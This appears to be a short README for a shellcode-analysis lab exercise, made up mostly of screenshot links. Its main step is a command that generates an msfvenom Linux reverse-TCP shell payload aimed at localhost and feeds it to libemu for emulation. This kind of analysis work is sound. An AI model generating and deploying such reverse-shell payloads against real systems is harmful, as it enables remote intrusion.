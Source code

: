 # Exercise 2


## Usage

![Screenshot](images/wrapper/1.png)

![Screenshot](images/wrapper/2.png)


## Steps

```
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" bindshell | tee libemu_res/libemu_res.txt
```

Get Argc value: 	https://forum.nasm.us/index.php?topic=889.0

Python:
```
c[::-1].encode('hex')
```


![Screenshot](images/1.png)

![Screenshot](images/2.png)

![Screenshot](images/3.png)

![Screenshot](images/resd_problem/1.png)

![Screenshot](images/resd_problem/2.png)

![Screenshot](images/resd_problem/3.png)

![Screenshot](images/resd_problem/4.png)

![Screenshot](images/resd_problem/5.png)



